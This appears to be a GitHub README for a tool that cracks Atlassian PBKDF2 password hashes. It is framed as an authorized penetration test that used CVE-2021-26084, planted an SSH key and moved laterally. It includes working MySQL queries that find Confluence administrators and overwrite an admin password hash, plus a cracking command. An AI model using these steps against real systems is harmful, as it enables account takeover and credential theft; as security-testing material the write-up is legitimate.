 # Original Intention 
----------------------------------------
In one of the projects which is authorized we performed, we managed to gain the Atlassian Confluence server access by exploiting the CVE-2021-26084 RCE vulnerability to add a public key into their authorized ssh file.

We then proceed to perform the lateral movement by performing a localhost reconnaissance in which the database account password is in the confluence-home-directory/database folder.

One way how we can gain access to the web management portal is by updating the hashed password on the MySQL table:

````
## Get the administrator account, id
select u.id, u.user_name, u.active from cwd_user u
join cwd_membership m on u.id=m.child_user_id join cwd_group g on m.parent_id=g.id join cwd_directory d on d.id=g.directory_id
where g.group_name = 'confluence-administrators' and d.directory_name='Confluence Internal Directory';

## Change Password123123
UPDATE cwd_user SET credential = '{PKCS5S2}V1J8HcMvYsdtnETu2tjA1gFVQ1L3o+dAsNiooSAcSvpRcbkTR8K4Ha/iWgF145gk'  
WHERE id=393217;
````

---------------------------------------
# Problem
---------------------------------------
When you amend a confluence password, it will disallow users to log in to the other system because the internal IT staff are using the same login account and password, which will cause a problem when we want to perform lateral movement.

Through the MySQL database account, we managed to obtain the pbkdf2 hash value, and after studying the hash value, we can write a script called PBKDF2(Atlassian) hash atlassian_pbkdf2_dehash to perform a hash collision to gather the user's plaintext password,

After which, we manage to gain have access to the GitLab user account password through the plaintext password, find the code configuration file, multiple servers, and penetrate the intranet.

---------------------------------------
# Application 
````
python3 atlassian_pbkdf2_dehash.py -p <passwordfile> -f <hashfile>
````

---------------------------------------
# Operation Result Graph
![img.png](https://github.com/NumenCyberLabs/atlassian_pbkdf2_dehash/blob/main/img/img.png)
